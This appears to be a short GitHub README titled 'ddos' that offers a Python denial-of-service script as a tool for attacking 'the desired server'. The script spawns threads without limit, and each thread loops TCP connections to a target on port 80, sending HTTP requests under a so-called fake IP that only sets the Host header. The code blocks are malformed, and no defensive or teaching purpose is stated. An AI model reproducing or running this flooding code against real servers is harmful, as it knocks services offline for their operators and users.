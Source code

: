 # ddos
### A method for dos attack on the desired server

```

import socket # for connection

import threading # for Multitasking at the same time

```
### We start writing the rest of the tool code

# Setting up a fake IP and attacking the target host
‍‍‍‍``
‍‍‍‍import socket
import threading

target = '127.0.0.1' # target ip
fake_ip = '108.61.128.158'
port = 80
```
an = 0
def attack():
    while True:
        client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        client.connect((target, port))
        client.sendto(("GET /" + target + " HTTP/2\r\n").encode('ascii'), (target, port))
        client.sendto(("Host: " + fake_ip + "\r\n\r\n").encode('ascii'), (target, port))
        
        global an
        an += 1
        print(an)
        
        client.close()
```
```
while True:
    thread = threading.Thread(target=attack)
    thread.start()
```

# Don't be disappointed
